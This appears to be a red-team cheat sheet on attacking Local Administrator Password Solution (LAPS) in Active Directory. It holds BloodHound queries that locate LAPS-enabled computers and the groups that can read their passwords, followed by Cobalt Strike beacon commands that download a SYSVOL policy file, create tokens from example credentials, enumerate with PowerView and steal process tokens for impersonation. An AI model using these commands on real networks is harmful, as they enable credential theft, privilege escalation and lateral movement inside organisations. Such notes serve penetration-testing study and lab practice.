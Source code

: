 ### Local Administrator Password Solution (LAPS)

#### Enumerate

BloodHound

```
# find computers with LAPS enabled
MATCH (c:Computer {haslaps: true}) RETURN c

# find groups that can read LAPS
MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p
```

CS

```
# use bloodhound to find registry.pol file for download
beacon> download \\vault.io\SysVol\vault.io\Policies\{FDC369C2-35C2-4D97-B455-BB7839854512}\Machine\Registry.pol
```

Creds

```
beacon> make_token vault.io\mssql_svc Passw0rd
[...]

# if laps tools are installed
beacon> powershell Get-Command *AdmPwd

# using PowerView
beacon> Get-DomainComputer
```

#### Impersonation

##### Steal token

```
# find desired PID
beacon> ps

# Steal
beacon> steal_token 4416
[+] Impersonated [...]

# revert
beacon> rev2self
```

##### Make Token

```
beacon> make_token vault\boss_adm Passw0rd
[+] Impersonated [...]
```
